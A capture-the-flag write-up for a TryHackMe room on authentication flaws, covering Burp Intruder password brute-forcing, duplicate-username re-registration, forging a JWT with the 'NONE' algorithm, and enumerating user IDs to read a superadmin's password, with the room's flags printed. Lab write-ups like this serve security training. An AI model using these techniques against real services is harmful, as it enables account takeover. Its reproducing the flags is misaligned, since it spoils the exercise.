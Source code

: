 # TryHackMe: Authenticate (Writeup)

[Authenticate](https://tryhackme.com/room/authenticate) is a TryHackMe CTF.
Focusses on a few types of authentication exploitation.

## Dictionary attack

Room requires you to use Burp Suite.
Start Burp Suite.
Connect to Burp proxy.
Turn off Burp proxy intercept.
Navigate to victim host on port 8888.

```
http://10.10.87.9:8888
```

After navigating to home page, turn the proxy intercept back on.
Input some random credentials into the login form.
Capture a request.

Send the POST `/login` request to Intruder.

Manipulate the request such the username is `jack` and we identify the payload area in the password field.

```
user=jack&password=§§
```

Goto Payload tab and load in `/usr/share/wordlists/rockyou.txt` as password list.
Start the attack.

Allow attack to run.
Will see the password `12345678` returns a different response.

```
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 221
Location: http://10.10.87.9:8888/logged
Vary: Cookie
Set-Cookie: session=eyJ1c2VyX2lkIjoxfQ.X3ej_A.sdwlnIZGKBKbBYGfMCVC1DEGXkw; HttpOnly; Path=/
Server: Werkzeug/0.16.0 Python/3.6.9
Date: Fri, 02 Oct 2020 22:04:44 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/logged">/logged</a>.  If not click the link.
```
Which acknowledges a succesful login. 

Following this, we can login using the found credentials.
Which reveals the flag.

```
fad9ddc1feebd9e9bca05f02dd89e271
```

Now we can try this for user `mike`.
Though, this time I swapped out `rockyou` for `fasttrack`.
A smaller list that doesn't take a long time to load.

A successful login occurs at password payload `12345`.

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/logged">/logged</a>.  If not click the link.
```

And after logging in as `mike`, we get the second flag.

```
e1faaa144df2f24aa0a9284f4a5bb578
```

## Re-registration

This section takes advantage of an exploit where we register as a user that already exists. For example, `darren` exists, so we will register as ` darren`, with a space prefixing the username.

Once registered, login to obtain flag.
Remeber to prefix the username with a space.

```
fe86079416a21a3c99937fea8874b667
```

And lets do the same for `arthur` too.
Arthur's flag is as follows.

```
d9ac0f7db4fda460ac3edeb75d75e16e
```

## JWT

We will exploit JWT tokens in this section.

Don't do like me.
Make sure you switch to port 5000. 
I spent an hour or so trying to decode the session cookie on 8888 --.

When you get to the site _on port 5000_. You'll see an authenticate form.
Use credentials `user:user`. You'll see a popup saying 'Welcome ~'.

After this, a Session Cookie with name `session` will be stored. For example:

We can decode this in Burp.
Paste the code into Burp's Decoder.
Decode as Base64.

```
{"typ":"JWT","alg":"HS256"}.{"exp":1601679943,"iat":1601679643,"nbf":1601679643,"identity":1}.
```

Add this the Access Token in Local Storage. 
Replacing the first two sections.
Leave the last section.

Edit the identity integer. 
Hit Go.
And you'll find admin!

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K.eyJleHAiOjE1ODY3MDUyOTUsImlhdCI6MTU4NjcwNDk5NSwibmJmIjoxNTg2NzA0OTk1LCJpZGVudGl0eSI6MH0K.
```

After hitting Go the following is returned.
```
Welcome admin: 92498880383088033228
```

## NoAuth

Switch the port 7777.

Hit _Create User_, progress to _Private space_.

The URL bar will show:
```
http://10.10.87.9:7777/users/1
```

Fuzz the integer and find `superadmin`'s password.

```
http://10.10.87.9:7777/users/0
```
```
Hello superadmin!

Your password:
abcd1234

Your secret data:
Here's your flag: 72102933396288983011
```

